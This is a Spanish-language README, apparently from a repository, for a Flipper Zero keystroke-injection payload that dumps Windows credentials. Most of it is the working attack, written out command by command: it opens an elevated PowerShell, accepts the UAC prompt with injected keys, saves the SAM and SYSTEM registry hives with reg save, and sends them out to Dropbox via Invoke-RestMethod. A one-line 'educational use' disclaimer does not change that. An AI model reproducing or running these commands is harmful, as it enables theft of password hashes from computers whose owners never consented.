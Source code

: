 # SamDumpFlipper

## Descripción

SamDumpFlipper es un script que extrae los archivos SAM y SYSTEM del registro de Windows y los exfiltra a Dropbox utilizando Flipper Zero. Este script utiliza PowerShell para realizar las tareas necesarias y subir los archivos a Dropbox.

## Autor

- **Autor**: flippermen
- **Versión**: 2.0
- **Categoría**: Credenciales
- **Modos de Ataque**: HID

## Requisitos

- Flipper Zero
- Token de API de Dropbox
- PowerShell

## Instrucciones de Uso

### Configuración Inicial

1. **Configurar el Token de Dropbox**:
   - Reemplaza `'your token'` en el script con tu token de API de Dropbox.

### Ejecución del Script

1. **Preparar el Flipper Zero**:
   - Asegúrate de que tu Flipper Zero está configurado en modo HID.

2. **Ejecutar el Script**:
   - Ejecuta el script en tu Flipper Zero.

### Pasos del Script

1. **Minimizar todas las ventanas**:
   - `WINDOWS d`
   
2. **Abrir el diálogo de Ejecutar**:
   - `WINDOWS r`
   
3. **Abrir PowerShell con privilegios elevados**:
   - `powershell Start-Process PowerShell -Verb runAs`
   
4. **Aceptar el prompt de UAC**:
   - `ALT LEFTARROW`
   - `ALT ENTER`
   
5. **Definir el token de Dropbox y las rutas de los archivos**:
   - `$DropboxToken = 'your token'`
   - `$SamPath = 'C:\\Windows\\Temp\\sam'`
   - `$SystemPath = 'C:\\Windows\\Temp\\system'`
   
6. **Eliminar archivos existentes si los hay**:
   - `Remove-Item -Path $SamPath -Force`
   - `Remove-Item -Path $SystemPath -Force`
   
7. **Guardar los hives SAM y SYSTEM**:
   - `reg save hklm\sam $SamPath`
   - `reg save hklm\system $SystemPath`
   
8. **Leer el contenido de los archivos SAM y SYSTEM**:
   - `$SamContent = [System.IO.File]::ReadAllBytes($SamPath)`
   - `$SystemContent = [System.IO.File]::ReadAllBytes($SystemPath)`
   
9. **Subir los archivos a Dropbox utilizando Invoke-RestMethod**:
   - `Invoke-RestMethod -Uri 'https://content.dropboxapi.com/2/files/upload' -Headers @{ 'Authorization' = "Bearer $DropboxToken"; 'Dropbox-API-Arg' = '{"path":"/sam","mode":"add","autorename":true}'; 'Content-Type' = "application/octet-stream" } -Method Post -Body $SamContent`
   - `Invoke-RestMethod -Uri 'https://content.dropboxapi.com/2/files/upload' -Headers @{ 'Authorization' = "Bearer $DropboxToken"; 'Dropbox-API-Arg' = '{"path":"/system","mode":"add","autorename":true}'; 'Content-Type' = "application/octet-stream" } -Method Post -Body $SystemContent`
   
10. **Señalar el fin del script**:
    - `(New-Object -ComObject wscript.shell).SendKeys('{CAPSLOCK}')`

## Notas

- Asegúrate de ajustar la secuencia para aceptar el prompt de UAC de acuerdo con el idioma y la configuración de tu sistema.
- Este script está diseñado para uso educativo y de pruebas. No debe ser utilizado para actividades no autorizadas.

## Licencia

Este proyecto está licenciado bajo la Licencia MIT. Ver el archivo `LICENSE` para más detalles.
